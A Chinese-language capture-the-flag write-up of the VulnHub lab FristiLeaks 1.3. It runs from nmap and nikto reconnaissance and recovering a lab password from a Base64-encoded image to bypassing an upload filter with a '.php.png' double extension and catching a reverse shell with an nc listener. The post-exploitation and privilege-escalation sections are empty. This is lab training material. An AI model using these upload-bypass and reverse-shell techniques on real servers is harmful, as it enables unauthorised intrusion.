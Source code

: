 
# Preface
这两天做了一个靶机，[fristileaks-13](https://www.vulnhub.com/entry/fristileaks-13,133/)，有时候觉得自己的速度真的是很慢，所以提醒一下自己要懂得：快就是慢，慢就是快。环境搭建都很简单，只需要注意以下修改虚拟机的mac地址，否则虚拟机获取不到地址，看了靶机说明才发现的：
<font color="red">VMware users will need to manually edit the VM's MAC address to: 08:00:27:A5:A6:76</font>

# Information Gathering
照例我们先做一下信息收集工作，netdiscover嗅探靶机地址:确定目标地址是192.168.0.103
```shell
┌──(root㉿kali)-[~]
└─# netdiscover -r 192.168.0.0/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 12 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 720
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.0.106   b4:2e:99:86:d5:f2      3     180  GIGA-BYTE TECHNOLOGY CO.,LTD.
 192.168.0.1     60:3a:7c:31:e8:66      7     420  TP-LINK TECHNOLOGIES CO.,LTD.
 192.168.0.3     a4:5e:60:c2:d9:0b      1      60  Apple, Inc.
 192.168.0.103   08:00:27:a5:a6:76      1      60  PCS Systemtechnik GmbH
```
确定完地址后我们对端口、服务及版本号、操作系统做一下信息收集：
```shell
┌──(root㉿kali)-[/fristileaks13]
└─# cat nmap.text
# Nmap 7.92 scan initiated Fri Jun 17 08:27:47 2022 as: nmap -sT -T5 -p- -sC -A -Pn -oN nmap.text 192.168.0.103
Nmap scan report for 192.168.0.103
Host is up (0.0010s latency).
Not shown: 65448 filtered tcp ports (no-response), 86 filtered tcp ports (host-unreach)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-robots.txt: 3 disallowed entries
|_/cola /sisi /beer
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.05 ms 192.168.0.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 17 08:29:17 2022 -- 1 IP address (1 host up) scanned in 89.60 seconds
```
可以看到目标机器只开放了80端口，robots.txt中有三个目录/cola /sisi /beer，操作系统版本：OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13

# Vulnerability Analysis
浏览器查看一下主页 <br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/1.png" width="56%" display="block"> <br />
浏览器查看一下robots.txt
```shell
┌──(root㉿kali)-[/fristileaks13]
└─# curl -s http://192.168.0.101/robots.txt
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
```
这些目录,这三个目录都是同一张图片, <br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/2.png" width="16%" display="block"> <br />
同时/images/存在目录遍历，可以列出该目录下的所有内容。<br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/3.png" width="36%" display="block"> <br />
nikto 扫描一下web漏洞：
```shell
┌──(root㉿kali)-[/fristileaks13]
└─# cat nikto.txt
- Nikto v2.1.6/2.1.5
+ Target Host: 192.168.0.101
+ Target Port: 80
+ GET Server may leak inodes via ETags, header found with file /, inode: 12722, size: 703, mtime: Tue Nov 17 13:45:47 2015
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Entry '/cola/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ GET Entry '/sisi/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ GET Entry '/beer/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ GET "robots.txt" contains 3 entries which should be manually viewed.
+ HEAD Apache/2.2.15 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ HEAD PHP/5.3.3 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE
+ OSVDB-877: TRACE HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: GET /icons/: Directory indexing found.
+ OSVDB-3268: GET /images/: Directory indexing found.
+ OSVDB-3233: GET /icons/README: Apache default file found.
```
目前为止没有特别的发现，因此对目录进行扫描：

同样没有发现有价值的目录信息，事情进行到这里就只能回归原点进行，首页有个图片，上面写着keep calm and drink fristi，联想到网站的目录都是cola、sisi、beer都是饮料，因此猜测有可能存在fristi目录：<br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/4.png" width="46%" display="block"> <br />
通过分析这个目录的源码可以发现，可能的用户名有：admin/eezeepz，同时还存在一段怀疑是Base64编码的数据，尝试使用base64解码成图片： <br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/5.png" width="46%" display="block"> <br />
这个图片上的字符：keKkeKKeKKeKkEkkEk猜测可能是密码，于是尝试登陆，eezeepz/keKkeKKeKKeKkEkkEk组合能够正常登陆，而admin/keKkeKKeKKeKkEkkEk组合无法正常登陆。<br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/6.png" width="46%" display="block"> <br />
发现一个链接，点进去后是一个长传页面，怀疑存在文件上传漏洞：<br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/7.png" width="46%" display="block"> <br />

# Exploitation
经过测试正常的图片.png/.jpg/.gif是可以上传的，<br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/8.png" width="46%" display="block"> <br />
但是.php的文件是无法上传的：<br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/9.png" width="46%" display="block"> <br />
尝试使用多层文件扩展后缀，寄希望于服务器能解析，尝试上传一个php反弹shell木马，发现上传成功<br />
<img src="https://raw.githubusercontent.com/eagleatman/mywriteup/main/fristiLeaks-1.3/images/10.png" width="46%" display="block"> <br />

访问http://192.168.0.101/fristi/uploads/php-reverse-shell.php.png，Kali监听nc -lnvp 80，成功获取一个webshell。
```shell
┌──(root㉿kali)-[~]
└─# nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.0.100] from (UNKNOWN) [192.168.0.101] 35224
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 04:38:38 up  8:23,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.1$
```


# Post-Exploitation

# Privilege Escalation

# Conclusion

